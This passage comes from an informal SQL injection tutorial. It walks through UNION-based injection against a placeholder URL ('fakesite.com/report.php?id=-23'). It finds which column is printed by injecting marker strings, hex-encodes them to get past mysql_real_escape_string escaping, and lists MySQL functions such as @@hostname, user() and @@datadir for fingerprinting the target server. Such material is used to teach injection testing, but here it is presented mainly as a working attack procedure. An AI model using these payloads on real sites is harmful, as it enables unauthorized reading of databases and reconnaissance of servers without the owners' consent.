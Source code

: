 ```
| column1 | column2 | column3 | column4 | column5 |
| --- | --- | --- | --- | --- |
| 1 | 2 | 3 | 4 | 5 |
```

Any of the number must be printed in the webpage again as basic thing to understand is that programmer may be only printing some particular columns from the output, lets say the third one. So we if we can see 3 in the page then its good otherwise we can try the query below with some other values.

```
http://fakesite.com/report.php?id=-23 union select 'hello1','hello2','hello3','hello4','hello5'--+
```

Now just try to find it inside the source code. If you find hello1 that means the first colums is getting printed and if you found hello2 then the second column is getting printed and so on. Still some times if the programmer is using mysql\_real\_escape\_string it may create an error or else no output. We can simply avoid the usage of single quotes using hex values. Below is the encoded query for the above same query.

```
http://fakesite.com/report.php?id=-23 union select 0x68656c6c6f31,0x68656c6c6f32,0x68656c6c6f33,0x68656c6c6f34,0x68656c6c6f35--+
```

One small thing to remember is that always add 0x before any hexadecimal value. Hopefully the above query should work and you will find the column which is getting printed on the webpage or inside the source code. We will stich up with 3rd column for this example. As we know that any thing on place of third column is getting printed. Then now we can try some Default functions and variables, to get some information related to our target. Below are some of the Variables/Functions that can be used to get information about your target machine.

```
| Variable/Function |  | Output |
| --- | --- | --- |
| @@hostname | : | Current Hostname |
| @@tmpdir | : | Tept Directory |
| @@datadir | : | Data Directory |
| @@version | : | Version of DB |
| @@basedir | : | Base Directory |
| user() | : | Current User |
| database() | : | Current Database |
| version() | : | Version |
| schema() | : | current Database |
| UUID() | : | System UUID key |
| current\_user() | : | Current User |
| current\_user | : | Current User |
| system\_user() | : | Current Sustem user |
| session\_user() | : | Session user |
| @@GLOBAL.have\_symlink | : | Check if Symlink Enabled or Disabled |
| @@GLOBAL.have\_ssl | : | Check if it have ssl or not |
```

As we know that third is the column which is getting printed so now we will use the above functions on place of that columns only.
